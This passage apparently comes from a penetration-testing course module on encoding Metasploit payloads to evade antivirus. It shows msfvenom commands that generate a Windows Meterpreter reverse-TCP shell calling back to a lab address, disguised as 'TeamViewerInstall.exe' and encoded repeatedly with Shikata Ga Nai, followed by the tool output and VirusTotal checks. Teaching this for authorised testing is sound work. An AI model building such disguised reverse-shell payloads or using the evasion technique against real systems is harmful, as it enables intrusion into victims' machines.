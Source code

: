 Take the above example just as that—a hypothetical example. If we were to encode an executable payload only once with SGN, it would most likely be detected by most antiviruses today. Let's delve into that for a moment. Picking up `msfvenom`, the subscript of the Framework that deals with payload generation and Encoding schemes, we have the following input:

```shell
[!bash!]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: TeamViewerInstall.exe
```

This will generate a payload with the `exe` format, called TeamViewerInstall.exe, which is meant to work on x86 architecture processors for the Windows platform, with a hidden Meterpreter reverse\_tcp shell payload, encoded once with the Shikata Ga Nai scheme. Let us take the result and upload it to VirusTotal.

![image](https://academy.hackthebox.com/storage/modules/39/S8_SS01.png)

One better option would be to try running it through multiple iterations of the same Encoding scheme:

```shell
[!bash!]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai succeeded with size 449 (iteration=3)
x86/shikata_ga_nai succeeded with size 476 (iteration=4)
x86/shikata_ga_nai succeeded with size 503 (iteration=5)
x86/shikata_ga_nai succeeded with size 530 (iteration=6)
x86/shikata_ga_nai succeeded with size 557 (iteration=7)
x86/shikata_ga_nai succeeded with size 584 (iteration=8)
x86/shikata_ga_nai succeeded with size 611 (iteration=9)
x86/shikata_ga_nai chosen with final size 611
Payload size: 611 bytes
Final size of exe file: 73802 bytes
Error: Permission denied @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe
```

![image](https://academy.hackthebox.com/storage/modules/39/S8_SS02.png)

As we can see, it is still not enough for AV evasion. There is a high number of products that still detect the payload. Alternatively, Metasploit offers a tool called `msf-virustotal` that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal.
